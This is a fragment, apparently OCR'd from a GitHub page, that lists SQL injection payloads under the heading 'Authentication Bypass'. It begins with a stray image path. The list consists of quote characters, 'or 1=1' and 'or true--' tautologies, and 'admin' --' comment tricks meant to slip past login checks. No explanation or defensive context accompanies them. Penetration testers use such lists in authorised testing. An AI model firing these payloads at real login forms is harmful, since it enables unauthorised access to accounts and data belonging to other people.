 ### Authentication Bypass

```c
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 LIKE 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
```